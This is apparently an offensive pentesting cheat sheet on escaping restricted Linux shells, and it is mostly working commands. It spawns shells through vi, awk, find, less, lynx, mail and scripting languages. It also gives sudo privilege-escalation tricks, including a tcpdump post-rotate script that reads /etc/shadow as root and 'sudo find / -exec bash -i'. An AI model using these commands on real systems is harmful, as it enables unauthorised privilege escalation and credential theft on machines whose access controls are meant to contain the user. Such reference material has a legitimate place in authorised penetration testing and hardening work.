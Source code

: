 # Escaping Restricted Linux Shells

## A good url to find binaries that is possible for privesc that may not be covered in this list.

```sh
https://gtfobins.github.io/
```

## Use echo command with glob if ls is not present
## to list files have access to in the restricted shell

echo /usr/local/rbin/*

## Editors

:set shell=/bin/bash
:shell

:! /bin/bash

# Awk command

awk 'BEGIN {system("/bin/sh")}'

# Find command

find / -name blahblah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

# More, Less, and Man commands

'! /bin/sh'\
'!/bin/sh'\
'!bash'

# Less

sudo less /etc/file\
v\
:shell

# Write script with tee command

echo "evil script code" | tee script.sh

# Try invoking SHELL throught your favorite language

python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()\
perl -e 'exec "/bin/sh";'\
perl: exec "/bin/sh";\
ruby: exec "/bin/sh"\
lua: os.execute('/bin/sh')\
irb(main:001:0> exec "/bin/sh"

# lynx

open a local file with lynx (e.g.: $ lynx /etc/passwd)\
type “o” to open the options; change the second option (Editor) to “/bin/vi” and save the changes to go back at the main page.\
Type “e” to edit the file with vi\
Do the vi escape

# Mail command

set VISUAL=/bin/vi\
$ mail -s "subject" "destination email"\
Type "~v" on the next line to edit the mail with vi.

# tcpdump

echo $'id\ncat /etc/shadow' > /tmp/.test\
chmod +x /tmp/.test\
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

# find
sudo find / -exec bash -i \;\
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;

# rvim
```sh
python import pty;pty.spawn("/bin/bash")
```
